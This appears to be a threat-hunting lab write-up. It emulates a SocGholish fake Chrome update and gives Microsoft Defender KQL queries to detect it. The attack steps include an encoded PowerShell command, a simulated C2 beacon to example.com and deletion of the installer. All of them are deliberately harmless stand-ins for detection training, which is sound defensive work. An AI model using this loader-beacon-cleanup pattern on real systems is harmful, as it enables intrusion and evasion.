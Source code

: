 # Threat Event (SocGholish Fake Browser Update)
**Unauthorized SocGholish Loader Emulation**

## Steps the "Bad Actor" took to Create Logs and IoCs:
1. Visit a compromised website (simulated)
2. Downloads a fake Chrome update installer named: `chrome_update_fake.exe`
3. Executes the fake installer 
4. The "installer" then runs an obfuscated PowerShell encoded command: `powershell -enc UwBlAGMAdQByAGU=` (base64 for "secure", harmless)
5. PowerShell sends a simulated C2 check-in to a benign site: `Invoke-WebRequest -Uri "http://example.com/collect"`
6. Deletes the fake installer to mimic attacker cleanup: `Remove-Item C:\Users\<username>\Downloads\chrome_update_fake.exe`

---

## Tables Used to Detect IoCs:
| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceFileEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table|
| **Purpose**| Used to detect fake update file creation, execution, and deletion. |

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceProcessEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table|
| **Purpose**| 	Used to detect the encoded PowerShell loader simulation.|

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceNetworkEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table|
| **Purpose**| Used to detect PowerShell network activity to the simulated C2.|

---

## Related Queries:
```kql
// Detect the fake update download
DeviceFileEvents
| where FileName contains "chrome_update_fake"

// Detect suspicious PowerShell with encoded command
DeviceProcessEvents
| where DeviceName == "nessa-windows"
| where ProcessCommandLine has "-enc"
| project Timestamp, DeviceName, ActionType, FileName, FolderPath, ProcessCommandLine, AccountName, AccountDomain
| order by Timestamp desc

// Detect PowerShell making outbound network request
DeviceNetworkEvents
| where DeviceName == "nessa-windows"
| where InitiatingProcessFileName =~ "powershell.exe"
| project Timestamp, DeviceName, InitiatingProcessAccountName, RemoteIP, RemotePort, RemoteUrl
| order by Timestamp desc

// Detect deletion of the fake update file
DeviceFileEvents
| where FileName contains "chrome_update_fake" and ActionType == "FileDeleted"

```

---

## Created By:
- **Author Name**: Vanessa Mancia 
- **Author Contact**: https://www.linkedin.com/in/VanessaMancia/
- **Date**: June 30, 2025

## Validated By:
- **Reviewer Name**: 
- **Reviewer Contact**: 
- **Validation Date**: 

---

## Additional Notes:
- **None**

---

## Revision History:
| **Version** | **Changes**                   | **Date**         | **Modified By**   |
|-------------|-------------------------------|------------------|-------------------|
| 1.0         | Initial draft                  | `September  6, 2024`  | `Josh Madakor`   
